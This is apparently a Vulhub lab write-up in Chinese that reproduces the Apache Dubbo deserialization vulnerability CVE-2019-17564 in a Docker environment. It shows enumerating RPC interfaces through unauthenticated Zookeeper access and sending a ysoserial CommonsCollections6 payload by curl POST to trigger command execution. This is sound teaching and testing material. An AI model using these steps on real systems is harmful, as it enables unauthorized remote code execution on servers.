



# Aapche Dubbo Java反序列化漏洞（CVE-2019-17564）

Apache Dubbo是一款高性能、轻量级的开源Java RPC服务框架。Dubbo可以使用不同协议通信，当使用http协议时，Apache Dubbo直接使用了Spring框架的`org.springframework.remoting.httpinvoker.HttpInvokerServiceExporter`类做远程调用，而这个过程会读取POST请求的Body并进行反序列化，最终导致漏洞。

在Spring文档中，对`HttpInvokerServiceExporter`有如下描述，并不建议使用：

> WARNING: Be aware of vulnerabilities due to unsafe Java deserialization: Manipulated input streams could lead to unwanted code execution on the server during the deserialization step. As a consequence, do not expose HTTP invoker endpoints to untrusted clients but rather just between your own services. In general, we strongly recommend any other message format (e.g. JSON) instead.

这个漏洞影响Apache Dubbo 2.7.4及以前版本，2.7.5后Dubbo使用`com.googlecode.jsonrpc4j.JsonRpcServer`替换了`HttpInvokerServiceExporter`。

参考链接：

- https://docs.spring.io/spring-framework/docs/current/javadoc-api/org/springframework/remoting/httpinvoker/HttpInvokerServiceExporter.html
- https://www.anquanke.com/post/id/198747
- https://paper.seebug.org/1128/

## 漏洞环境

执行如下命令启动一个Apache Dubbo 2.7.3 Provider：

```
docker-compose up -d
```

服务启动后，访问`http://your-ip:8080`，服务器默认会返回500错误。

## 漏洞复现

利用该漏洞需要先知道目标RPC接口名，而Dubbo所有的RPC配置储存在registry中，通常使用Zookeeper作为registry。如果能刚好找到目标的Zookeeper未授权访问漏洞，那么就可以在其中找到接口的名称与地址。

Vulhub对外开放了8080端口和2181端口，其中2181即为Zookeeper的端口，我们本地下载[Zookeeper](https://zookeeper.apache.org/)，使用其中自带的**zkCli**即可连接到这台Zookeeper服务器：

```
./zkCli -server target-ip:2181
```

连接后进入一个交互式控制台，使用`ls`即可列出其中所有节点，包括Dubbo相关的配置：



获取到RPC接口名为`org.vulhub.api.CalcService`。直接用ysoserial生成CommonsCollections6的Payload作为POST Body发送到`http://your-ip:8080/org.vulhub.api.CalcService`即可触发反序列化漏洞：

```
java -jar ysoserial.jar CommonsCollections6 "touch /tmp/success" > 1.poc
curl -XPOST --data-binary @1.poc http://your-ip:8080/org.vulhub.api.CalcService
```



进入容器，可见`touch /tmp/success`已成功执行。


